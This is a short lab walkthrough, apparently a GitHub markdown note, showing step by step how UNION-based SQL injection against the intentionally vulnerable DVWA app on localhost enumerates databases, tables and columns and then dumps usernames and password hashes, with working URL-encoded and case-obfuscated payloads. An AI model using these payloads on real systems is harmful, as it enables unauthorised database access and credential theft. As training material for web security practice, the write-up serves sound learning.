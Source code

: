 ### Extract database name

```http
http://127.0.0.1:42001/vulnerabilities/sqli/?id=0%27union%20select%201,gRoUp_cOncaT(0x7c,schema_name,0x7c)%20fRoM%20information_schema.schemata--%20-&Submit=Submit#
```

```sql
union select 1,gRoUp_cOncaT(0x7c,schema_name,0x7c) fRoM information_schema.schemata
```

![DVWA_LOW_DB_NAME.png](SQL_Injection/Images/DVWA_LOW_COLUMNNAME.png)
![DVWA_LOW_DB_NAME.png](images/DVWA_LOW_COLUMNNAME.png)

### Extract tables from database

```http
http://127.0.0.1:42001/vulnerabilities/sqli/?id=0%27union%20select%201,gRoUp_cOncaT(0x7c,table_name,0x7c)%20fRoM%20information_schema.tables%20wHeRe%20table_schema=%27dvwa%27--%20-&Submit=Submit#
```

```sql
union select 1,gRoUp_cOncaT(0x7c,table_name,0x7c) fRoM information_schema.tables wHeRe table_schema='dvwa'
```

![DVWA_LOW_TABLENAME.png](DVWA_LOW_TABLENAME.png)

### Extract column name from database

```http
http://127.0.0.1:42001/vulnerabilities/sqli/?id=0%27union%20select%201,gRoUp_cOncaT(0x7c,column_name,0x7c)%20fRoM%20information_schema.columns%20where%20table_schema=%27dvwa%27--%20-&Submit=Submit#
```

```sql
union select 1,gRoUp_cOncaT(0x7c,column_name,0x7c) fRoM information_schema.columns where table_schema='dvwa'
```

or

```http
http://127.0.0.1:42001/vulnerabilities/sqli/?id=0%27union%20select%201,gRoUp_cOncaT(0x7c,column_name,0x7c)%20fRoM%20information_schema.columns%20where%20table_schema=database()--%20-&Submit=Submit#
```

```sql
union select 1,gRoUp_cOncaT(0x7c,column_name,0x7c) fRoM information_schema.columns where table_schema=database()
```

![DVWA_LOW_COLUMNNAME.png](DVWA_LOW_COLUMNNAME.png)
Note: here column name can be from different table as well **comment_id** and **comment** is from **guestbook** table
So Craft payload accordingly for dumping full data

### EXTRACT data from table

```http
http://127.0.0.1:42001/vulnerabilities/sqli/?id=0%27union%20select%201,gRoUp_cOncaT(0x7c,user,0x3a,password,0x7c)%20fRoM%20users--%20-&Submit=Submit#
```

```sql
union select 1,gRoUp_cOncaT(0x7c,user,0x3a,password,0x7c) fRoM users
```

![DVWA_LOW_DATA_DUMP.png](DVWA_LOW_DATA_DUMP.png)
